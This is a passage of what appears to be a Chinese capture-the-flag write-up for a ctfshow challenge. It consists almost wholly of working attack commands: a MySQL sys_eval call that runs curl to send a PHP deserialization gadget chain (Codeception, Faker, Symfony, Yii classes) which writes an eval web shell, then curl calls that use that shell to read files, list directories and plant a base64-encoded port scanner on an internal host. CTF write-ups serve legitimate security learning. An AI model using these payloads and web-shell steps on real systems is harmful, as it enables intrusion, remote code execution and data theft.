 ```
select sys_eval('sudo curl -H "Content-Type: application/x-www-form-urlencoded" -X POST -d "UnserializeForm[ctfshowUnserializeData]=O%3A32%3A%22Codeception%5CExtension%5CRunProcess%22%3A2%3A%7Bs%3A43%3A%22%00Codeception%5CExtension%5CRunProcess%00processes%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A22%3A%22Faker%5CDefaultGenerator%22%3A1%3A%7Bs%3A10%3A%22%00%2A%00default%22%3BO%3A35%3A%22Symfony%5CComponent%5CString%5CLazyString%22%3A1%3A%7Bs%3A42%3A%22%00Symfony%5CComponent%5CString%5CLazyString%00value%22%3Ba%3A2%3A%7Bi%3A0%3BO%3A21%3A%22yii%5Crest%5CCreateAction%22%3A2%3A%7Bs%3A11%3A%22checkAccess%22%3Ba%3A2%3A%7Bi%3A0%3BO%3A16%3A%22yii%5Cgii%5CCodeFile%22%3A3%3A%7Bs%3A9%3A%22operation%22%3BN%3Bs%3A4%3A%22path%22%3Bs%3A28%3A%22%2Fvar%2Foa%2Fweb%2Fassets%2Fshell.php%22%3Bs%3A7%3A%22content%22%3Bs%3A24%3A%22%3C%3Fphp+eval%28%24_POST%5B1%5D%29%3B%3F%3E%22%3B%7Di%3A1%3Bs%3A4%3A%22save%22%3B%7Ds%3A2%3A%22id%22%3Bs%3A0%3A%22%22%3B%7Di%3A1%3Bs%3A3%3A%22run%22%3B%7D%7D%7D%7Ds%3A40%3A%22%00Codeception%5CExtension%5CRunProcess%00output%22%3BO%3A22%3A%22Faker%5CDefaultGenerator%22%3A1%3A%7Bs%3A10%3A%22%00%2A%00default%22%3BO%3A35%3A%22Symfony%5CComponent%5CString%5CLazyString%22%3A1%3A%7Bs%3A42%3A%22%00Symfony%5CComponent%5CString%5CLazyString%00value%22%3Ba%3A2%3A%7Bi%3A0%3BO%3A21%3A%22yii%5Crest%5CCreateAction%22%3A2%3A%7Bs%3A11%3A%22checkAccess%22%3Ba%3A2%3A%7Bi%3A0%3BO%3A16%3A%22yii%5Cgii%5CCodeFile%22%3A3%3A%7Bs%3A9%3A%22operation%22%3BN%3Bs%3A4%3A%22path%22%3Bs%3A28%3A%22%2Fvar%2Foa%2Fweb%2Fassets%2Fshell.php%22%3Bs%3A7%3A%22content%22%3Bs%3A24%3A%22%3C%3Fphp+eval%28%24_POST%5B1%5D%29%3B%3F%3E%22%3B%7Di%3A1%3Bs%3A4%3A%22save%22%3B%7Ds%3A2%3A%22id%22%3Bs%3A0%3A%22%22%3B%7Di%3A1%3Bs%3A3%3A%22run%22%3B%7D%7D%7D%7D" "http://oa:8888/index.php?r=site%2Funserialize&key=flag_663%3Dctfshow%7Bfa5cc1fb0bfc986d1ef150269c0de197%7D"')
```

还是ban掉了一些函数

```
a=echo `curl http://172.2.39.5:8888/assets/shell.php -d "1=phpinfo();"`;
```



![image-20220330170826044](https://img-blog.csdnimg.cn/img_convert/617c85147b4380fee977f0019734d66b.png)



接着扫目录发现了flag664.php

```
a=echo `curl http://172.2.39.5:8888/assets/shell.php -d "1=var_dump(scandir('../../'));"`;
a=echo `curl http://172.2.39.5:8888/assets/shell.php -d "1=echo file_get_contents('../../flag664.php');"`;
```

扫描端口

```
a=echo `curl -H "Content-Type: application/x-www-form-urlencoded" -X POST -d "1=file_put_contents('scan.php',base64_decode('PD9waHAKaGlnaGxpZ2h0X2ZpbGUoX19GSUxFX18pOwpmb3IoJGk9MDskaTw2NTUzNTskaSsrKSB7CiAgJHQ9c3RyZWFtX3NvY2tldF9zZXJ2ZXIoInRjcDovLzAuMC4wLjA6Ii4kaSwkZWUsJGVlMik7CiAgaWYoJGVlMiA9PT0gIkFkZHJlc3MgYWxyZWFkeSBpbiB1c2UiKSB7CiAgICB2YXJfZHVtcCgkaSk7CiAgfQp9'));" "http://oa:8888/assets/shell.php"`;

//base64:
<?php
highlight_file(__FILE__);
for($i=0;$i<65535;$i++) {
  $t=stream_socket_server("tcp://0.0.0.0:".$i,$ee,$ee2);
  if($ee2 === "Address already in use") {
    var_dump($i);
  }
}
```
